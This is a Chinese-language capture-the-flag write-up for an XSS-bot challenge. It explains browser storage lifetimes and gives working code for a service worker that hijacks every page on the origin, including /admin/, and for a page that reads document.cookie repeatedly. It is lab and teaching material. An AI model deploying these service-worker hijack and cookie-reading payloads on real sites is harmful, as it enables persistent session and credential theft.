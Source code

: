 ### flag2

这一问我是第二阶段看到提示后才做出来的。

在第一阶段时，看到 xssbot 的源码，我不太熟悉 selenium 的 API，不过看到创建并关闭了 2 次 webdriver，猜测这可能相当于打开并关闭浏览器。在浏览器中存储的数据有不同的生命周期，有的是遵从会话（session）生命周期，在关闭标签页或关闭浏览器后就会消失。还有一些资源是持久（permanent）的，即使关掉浏览器也能长期保存，在下次打开浏览器后仍然有效。例如对于 cookie 而言，如果没有设置 `expires` 或者 `max-age` 属性的 cookie 就是会话生命周期的，如果设置了二者之一那么就是持久生命周期的，会在指定时间后过期。另一个例子是 [Web Storage API](https://developer.mozilla.org/zh-CN/docs/Web/API/Web_Storage_API)，其中 sessionStorage 具有会话生命周期，而 localStorage 具有持久生命周期且不会过期。

回到题目，本题在第一个会话中访问我们提供的页面，在第二个会话中访问 admin 页面并设置 cookie。这就意味着我们需要设置某种持久的资源，并且能在第二次会话中执行 js 读取 cookie。当时由于时间关系，本题我没有多考虑，直到第二阶段看到提示中说要使用 [service worker](https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API)。在阅读本题解时，我也建议读者先阅读一下它的文档。

看了一下 service worker 的文档，想起来之前听说过也见过一种叫做 [PWA](https://developer.mozilla.org/zh-CN/docs/Web/Progressive_web_apps) 的技术，可以在浏览器中做到类似原生桌面应用程序的效果，其中就涉及到把网页缓存在本地，这样即使没有网络的情况下也可以使用 PWA 应用程序。而 PWA 用于实现缓存的方法就是 service worker。

使用 service worker 解决本题时，需要三个网页：一个页面交给 xssbot 直接访问，注册 service worker；一个页面用来提供 service worker 的 JavaScript 代码；一个页面包含实际读取 cookie、把 cookie 设置到网页标题的功能。第二个页面的 mime 文件类型是 `text/javascript`，另外两个都是 `text/html`。

具体过程是，首先 xssbot 访问第 1 个页面，在其中把第 2 个页面的 js 注册成 service worker，并且注册到网站的根目录：

``` html
<html>
  <script>
    async function main() {
      let registration = await navigator.serviceWorker.register(
        "../sw/", {scope: "/"},
      )
    }
    main()
  </script>
</html>
```

在提交页面里把这个 html 上传到网站的任意路径里。

然后在 service worker 的 js 里，我们需要拦截 fetch 事件，然后用我们自己的页面作为响应来替换 `/admin/` 上的页面：

``` js
self.addEventListener("fetch", (event) => {
    event.respondWith(handle_fetch_event(event))
})

async function handle_fetch_event(event) {
    return await fetch("/hijack/")
}
```

然后把这个 js 上传到网站的 `sw` 路径上，响应头中的 `Content-Type` 需要改成 `text/javascript`。

然后把读取 cookie 的页面上传到网站的 `hijack` 路径上：

``` html
<html>
  <script>
    function sleep(ms) {
      return new Promise(resolve => setTimeout(resolve, ms))
    }
    async function main() {
      while (true) {
        let cookie = document.cookie
        document.title = "cookie: " + cookie
        await sleep(100)
      }
    }
    main()
  </script>
```